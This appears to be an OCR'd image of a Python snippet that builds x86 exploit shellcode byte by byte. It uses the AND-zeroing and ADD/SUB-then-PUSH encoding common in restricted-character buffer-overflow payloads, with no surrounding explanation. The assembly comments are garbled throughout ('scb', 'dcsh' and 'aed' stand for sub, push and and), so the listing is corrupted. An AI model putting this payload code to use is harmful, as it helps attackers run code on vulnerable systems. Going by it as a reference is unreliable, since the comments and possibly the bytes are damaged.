 ```python
shellcode += "\x05\x13\x53\x64\x52" ## add  eax, 0x52645313
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x57\x67\x71\x24" ## add  eax, 0x24716757
shellcode += "\x05\x57\x56\x61\x14" ## add  eax, 0x14615657
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x31\x66\x15\x45" ## add  eax, 0x45156631
shellcode += "\x05\x31\x65\x15\x44" ## add  eax, 0x44156531
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x04\x64\x16\x42" ## add  eax, 0x42166404
shellcode += "\x05\x04\x64\x16\x42" ## add  eax, 0x42166404
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x32\x16\x64\x71" ## add  eax, 0x71641632
shellcode += "\x05\x32\x25\x54\x61" ## add  eax, 0x61542532
shellcode += "\x05\x22\x16\x33\x51" ## add  eax, 0x51331622
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x74\x57\x66\x23" ## add  eax, 0x23665774
shellcode += "\x05\x64\x46\x55\x13" ## add  eax, 0x13554664
shellcode += "\x05\x54\x45\x46\x23" ## add  eax, 0x23464554
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x56\x71\x11\x31" ## add  eax, 0x31117156
shellcode += "\x05\x45\x62\x21\x21" ## add  eax, 0x21216245
shellcode += "\x05\x46\x51\x11\x21" ## add  eax, 0x21115146
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x17\x63\x12\x46" ## add  eax, 0x46126317
shellcode += "\x05\x16\x52\x12\x46" ## add  eax, 0x46125216
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x11\x41\x22\x21" ## add  eax, 0x21224111
shellcode += "\x05\x22\x42\x21\x21" ## add  eax, 0x21214222
shellcode += "\x05\x11\x41\x22\x21" ## add  eax, 0x21224111
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x51\x17\x56\x66" ## add  eax, 0x66561751
shellcode += "\x05\x41\x16\x45\x55" ## add  eax, 0x55451641
shellcode += "\x05\x41\x15\x43\x34" ## add  eax, 0x34431541
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x23\x23\x67\x33" ## add  eax, 0x33672323
shellcode += "\x05\x22\x12\x56\x33" ## add  eax, 0x33561222
shellcode += "\x05\x22\x22\x65\x33" ## add  eax, 0x33652222
```